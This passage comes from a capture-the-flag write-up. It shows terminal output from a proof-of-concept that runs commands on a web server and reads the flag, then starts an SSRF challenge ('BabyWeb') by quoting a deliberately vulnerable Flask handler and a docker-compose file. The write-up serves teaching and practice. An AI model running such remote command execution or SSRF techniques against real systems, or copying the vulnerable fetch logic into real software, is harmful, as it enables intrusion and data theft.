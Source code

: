 ```python
    print(RESULT)
```
I wrote the exploit code as above.

```zsh
❯ python3 poc.py   
[+] FILANAME : 37106.php
[+] Enter the command : id

s:32:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)";
[+] Enter the command : cat /flag

s:32:"cce2022{ce9237924b58afdf2a164345ddd8265e49f210abc75ab12002eb6f6a32109d293a992b99214eae312f9f33131458dbc0e8c17485364fec867a241b1b}
cce2022{ce9237924b58afdf2a164345ddd8265e49f210abc75ab12002eb6f6a32109d293a992b99214eae312f9f33131458dbc0e8c17485364fec867a241b1b}";
```


---
# BabyWeb

This is a challenge of SSRF using different URL parsing methods.

```python
@app.route('/', methods=['GET','POST'])
def index():
    if request.method == "POST":
        try:
            url = request.form['url']
            result = urllib.parse.urlparse(url)
            if result.hostname == 'flag.service':
                return "Not allow"
            else:
                if(valid_ip(result.hostname)):
                    return "huh??"
                else:
                    return requests.get("http://"+result.hostname+result.path, allow_redirects=False).text
        except:
            return "Something wrong..."
    elif request.method == "GET":
        return data
```
Looking at the code, hostname should not be flag.service. And it must be a valid IP.

```docker
version: '3'
services:
  challenge:
    build:
      context: .
      dockerfile: ./public/Dockerfile
    ports: 
      - "80:80"
    links:
      - flag.service
  flag.service:
    build:
      context: .
      dockerfile: ./internal/Dockerfile
  
```